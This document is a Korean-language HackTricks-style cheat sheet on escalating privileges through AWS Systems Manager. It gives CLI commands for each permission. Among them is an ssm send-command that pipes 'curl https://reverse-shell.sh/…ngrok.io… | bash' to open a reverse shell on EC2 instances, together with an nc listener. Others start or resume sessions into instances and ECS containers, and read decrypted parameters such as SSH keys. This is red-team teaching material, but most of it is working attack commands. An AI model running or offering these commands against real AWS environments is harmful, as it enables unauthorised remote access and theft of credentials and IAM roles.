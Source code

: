 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

SSM에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** 권한이 있는 공격자는 **Amazon SSM Agent가 실행 중인 인스턴스에서 명령을 실행하고** 그 안에서 실행 중인 **IAM 역할을 손상시킬 수 있습니다.**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
이미 손상된 EC2 인스턴스 내에서 권한을 상승시키기 위해 이 기술을 사용하는 경우, 다음과 같이 로컬에서 rev shell을 캡처할 수 있습니다:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**잠재적 영향:** SSM 에이전트가 실행 중인 인스턴스에 연결된 EC2 IAM 역할로 직접적인 권한 상승.

### `ssm:StartSession`

**`ssm:StartSession`** 권한이 있는 공격자는 **Amazon SSM 에이전트가 실행 중인 인스턴스에서 SSH와 유사한 세션을 시작하고** 그 안에서 실행 중인 IAM 역할을 **타협할 수 있습니다.**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
세션을 시작하려면 **SessionManagerPlugin**이 설치되어 있어야 합니다: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**잠재적 영향:** SSM 에이전트가 실행 중인 인스턴스에 연결된 EC2 IAM 역할로 직접 권한 상승.

#### ECS로의 권한 상승

**ECS 작업**이 **`ExecuteCommand`가 활성화된 상태**에서 실행될 때, 충분한 권한을 가진 사용자는 `ecs execute-command`를 사용하여 **컨테이너 내에서 명령을 실행**할 수 있습니다.\
[**문서**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)에 따르면, 이는 “_exec_“ 명령을 시작하는 데 사용하는 장치와 SSM 세션 관리자와의 대상 컨테이너 간에 안전한 채널을 생성하여 수행됩니다. (이 작업을 수행하려면 SSM 세션 관리자 플러그인이 필요합니다)\
따라서 `ssm:StartSession` 권한이 있는 사용자는 해당 옵션이 활성화된 ECS 작업 내에서 **쉘을 얻을 수 있습니다**.
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**잠재적 영향:** `ExecuteCommand`가 활성화된 실행 중인 작업에 연결된 `ECS` IAM 역할로 직접적인 권한 상승.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** 권한을 가진 공격자는 **Amazon SSM Agent가 실행 중인 인스턴스에서** **연결이 끊긴** SSM 세션 상태로 SSH와 유사한 세션을 재시작하고 **그 안에서 실행 중인 IAM 역할을 타협할 수 있습니다.**
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**잠재적 영향:** SSM 에이전트가 실행 중인 인스턴스에 연결된 EC2 IAM 역할로 직접적인 권한 상승.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

언급된 권한을 가진 공격자는 **SSM 매개변수**를 나열하고 **일반 텍스트로 읽을 수** 있습니다. 이러한 매개변수에서 종종 **민감한 정보**를 찾을 수 있습니다. 예를 들어 SSH 키나 API 키가 있습니다.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**잠재적 영향:** 매개변수 내에서 민감한 정보를 찾습니다.

### `ssm:ListCommands`

이 권한을 가진 공격자는 모든 **명령**을 나열할 수 있으며, 그 안에서 **민감한 정보**를 찾을 수 있기를 바랍니다.
```
aws ssm list-commands
```
**잠재적 영향:** 명령줄 내에서 민감한 정보를 찾습니다.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

이 권한을 가진 공격자는 모든 **명령**을 나열하고 **출력**을 읽을 수 있으며, 이를 통해 **민감한 정보**를 찾을 수 있습니다.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**잠재적 영향:** 명령줄의 출력에서 민감한 정보를 찾습니다.

### Codebuild

SSM을 사용하여 빌드 중인 codebuild 프로젝트에 접근할 수도 있습니다:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
